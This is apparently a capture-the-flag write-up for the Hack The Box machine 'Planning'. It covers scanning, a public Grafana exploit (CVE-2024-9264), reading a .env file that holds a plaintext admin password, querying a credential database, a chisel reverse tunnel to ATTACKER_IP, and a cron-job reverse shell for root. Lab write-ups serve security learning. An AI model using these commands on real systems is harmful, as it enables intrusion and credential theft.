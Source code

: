 **IP:**

---

## OS / Technology
- Ubuntu
- PHP
- Grafana v11.0.0 (83b9528bce)

---

## Users / Passwords
- `Bob Moss` (found during enumeration / post-exploitation)

---

## Services
- **80 HTTP**
  - Hostname: `planning.htb`
  - Simple site; limited source code and no obvious interesting paths from fuzzing
- **Grafana subdomain**
  - `grafana.planning.htb` — vulnerable Grafana instance (see CVE below)
- **22 SSH**
  - Open; used for later pivoting

---

## Nmap (important ports)
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11
80/tcp open  http    nginx 1.24.0 (Ubuntu)
```


## Technical details 
- Grafana exploit (CVE-2024-9264): used a public exploit against the discovered Grafana version to get code execution in the Grafana container.
- On the container:
```bash
# found .env with admin credentials
cat /etc/grafana/.env
# GF_SECURITY_ADMIN_USER=enzo
# GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
```
- SSH to host:
```bash
ssh enzo@planning.htb
```
- Find local DB & credentials:
```bash
find / -type f -name 'crontab.db' 2>/dev/null
sqlite3 /path/to/crontab.db "SELECT * FROM users;"   # discovered password
```
- Port forwarding with chisel (reverse tunnel):
 1. Start chisel server on attacker:
    ```bash
    ./chisel server -p 9000 --reverse
    ```
 2. Run chisel client on target:
    ```bash
    ./chisel client ATTACKER_IP:9000 R:8001:127.0.0.1:8000
    ```
 3. Access `http://127.0.0.1:8001` locally to reach the remote `127.0.0.1:8000`.
- Use discovered credential to log into crontab web UI, add job to execute reverse shell, obtain root.

